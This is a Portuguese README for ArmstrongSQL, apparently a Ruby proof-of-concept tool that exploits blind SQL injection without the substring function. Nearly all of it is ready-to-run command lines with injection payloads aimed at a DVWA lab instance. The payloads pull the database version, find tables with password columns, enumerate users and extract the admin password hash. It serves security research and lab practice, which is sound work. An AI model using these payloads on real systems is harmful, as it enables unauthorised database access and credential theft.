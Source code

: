 # ArmstrongSQL

O ArmstrongSQL é uma ferramenta que implementa uma prova de conceito de como explorar blind SQL injection sem a utilização da função substring. Detalhes em https://sidechannel.blog/sql-injection-tinha-uma-virgula-no-meio-do-caminho/index.html

Os exemplos citados neste README consideram o exemplo de utilização do ArmstrongSQL contra uma instância do DVWA.

## Versão do banco
./ArmStrongSQL.rb -m "Surname" -s "' and (select @@version) like '%'#"  -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -w

## Tabelas com coluna password
./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM information_schema.columns WHERE column_name = 'password' and table_name like '%') > 0#" -r

## Tabela USERS
./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM information_schema.columns WHERE table_name like 'USERS%' and column_name like '%') > 0#" -r

## Usuários da tabela USERS
./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM users WHERE USER like '%') > 0#" -r

## Hash do usuário Admin
 ./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM users WHERE USER = 'ADMIN' and password like '%') > 0#"  -d hex

## Salvando a saída para um arquivo
./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM users WHERE USER like '%') > 0#" -r -o USERS.txt
